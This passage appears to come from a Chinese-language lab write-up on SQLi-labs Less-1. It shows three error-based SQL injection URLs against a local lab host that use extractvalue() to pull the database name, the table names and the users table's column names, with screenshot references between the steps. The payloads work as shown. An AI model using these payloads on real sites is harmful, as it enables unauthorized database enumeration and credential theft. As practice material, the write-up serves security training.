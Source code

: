 - 获取数据库名(security)

```sql
http://192.168.77.131/master/Less-1/?id=1'and extractvalue(1,concat(0x3a,(select database()),0x3a)) --+
```

![image-20240820184345026](assets/image-20240820184345026.png)

- 获取表名(emails,referers,uagents,users)

```sql
http://192.168.77.131/master/Less-1/?id=1'and (extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a))) --+
```

![image-20240820184921277](assets/image-20240820184921277.png)

- 获取字段名(id,username,password)

```sql
http://192.168.77.131/master/Less-1/?id=1'and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x3a)) --+
```

![image-20240820194718757](assets/image-20240820194718757.png)

